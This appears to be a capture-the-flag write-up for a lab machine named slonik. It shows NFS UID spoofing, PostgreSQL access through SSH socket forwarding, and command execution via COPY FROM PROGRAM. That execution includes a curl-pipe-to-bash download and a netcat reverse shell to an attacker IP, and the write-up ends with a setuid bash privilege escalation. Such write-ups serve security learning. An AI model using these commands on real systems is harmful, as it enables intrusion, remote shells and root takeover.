









# Enumeration

We find a nfs and mount it:

Service folder is owner by 1337

So we can create a user called 1337
```
sudo groupadd -g 1337 1337
sudo useradd -u 1337 -g 1337 1337
```

Then accessing the folder:


Now we have hash of password:


Now looking at .bash_history:


Now using ssh port forwarding:
```
ssh -N -L /tmp/.s.PGSQL.5432:/var/run/postgresql/.s.PGSQL.5432 service@slonik.vl
```

Now we can open postgres
```
 psql -h /tmp -U postgres
```


Now using this [article](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)
We can read files:
Using psql oneliner:
```
service=# DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'curl <http://10.8.1.208/x> | bash';DROP TABLE IF EXISTS cmd_exec
```

Using a reverse shell command:
```
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.208 443 >/tmp/f';
```

Now we can get ssh access:

Using pspy:

This /usr/bin/backup:

Now we found the folder that was being backed up at `/var/lib/postgresql/14/main`


Now copying bash files to the directory and giving setuid bit:
`cp /bin/bash mybash`
`chmod u+s mybash`

Now in `/opt/backups/current/` we have mybash and executing it we get a root shell:

